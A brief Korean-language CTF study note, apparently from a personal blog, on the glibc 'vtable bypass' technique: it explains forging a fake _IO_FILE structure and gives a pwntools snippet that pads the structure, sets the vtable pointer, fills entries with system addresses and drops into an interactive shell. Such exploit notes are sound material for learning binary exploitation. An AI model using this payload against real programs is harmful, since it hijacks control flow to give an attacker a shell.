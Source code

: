 ```yaml
---
layout: post
type: note
title: vtable bypass
alias: Pwnable
---
```


fake _IO_FILE Structure를 만들어 vtable의 조작된 함수 포인터가 실행되게 만들면 된다.

```python
stream = p64(0)*17
stream += p64(NULLPOINTER) # _IO_lock_t
stream += p64(0)*9
stream += p64(vtable)
stream += p64(system)*20

p.sendline(stream)
p.interactive()
```



### Reference

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/fake-vtable-exploit

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

